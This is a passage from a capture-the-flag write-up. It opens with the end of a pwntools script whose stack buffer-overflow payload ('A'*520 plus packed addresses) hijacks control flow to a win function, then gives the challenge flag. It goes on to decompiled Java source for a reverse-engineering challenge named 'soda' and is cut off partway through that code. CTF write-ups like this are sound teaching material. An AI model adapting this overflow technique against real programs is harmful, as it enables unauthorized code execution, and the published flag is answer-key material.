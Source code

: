 ```
    for i in range(29):
        print(p.recvuntil(b'fired'))
        p.sendline(b'1')

        print(p.recvuntil(b'length.'))
        p.sendline(b'poop')
    
    print(p.recvuntil(b'fired'))
    p.sendline(b'1')

    print(p.recvuntil(b'length.'))

    # note that address of win is actually past the function prologue
    p.sendline(b'A'*520 + p64(0x0) + p64(0x0) + p64(0x0000000000401184))

    p.interactive()
```

Flag: `buckeye{if_it_quacks_like_a_duck_it_might_not_be_a_duck}`

## soda (rev)
Using a Java decompiler, we can see the source:

```
import java.io.BufferedReader;
import java.io.FileReader;
import java.util.Scanner;

// get the most expensive drink and drop it

public class soda {
  static final int NUM_DRINKS = 12;
  
  static float wallet = 5.0F;
  
  public static void main(String[] paramArrayOfString) {
    VendingMachine vendingMachine = new VendingMachine();
    Scanner scanner = new Scanner(System.in);
    System.out.println("\nThe prophecy states that worthy customers receive flags in their cans...");
    while (true) {
      System.out.println("\n" + vendingMachine);
      System.out.println(String.format("I have $%.02f in my wallet", new Object[] { Float.valueOf(wallet) }));
      System.out.print("command> ");
      try {
        String str = scanner.nextLine();
        if (str.isEmpty())
          break; 
        String[] arrayOfString = str.split(" ");
        processCommand(vendingMachine, arrayOfString);
      } catch (Exception exception) {
        break;
      } 
    } 
    System.out.println();
    scanner.close();
  }
  
  private static void processCommand(VendingMachine paramVendingMachine, String[] paramArrayOfString) {
    // purchase [n between 1 and 12]
    // buys the drink at index i-1
```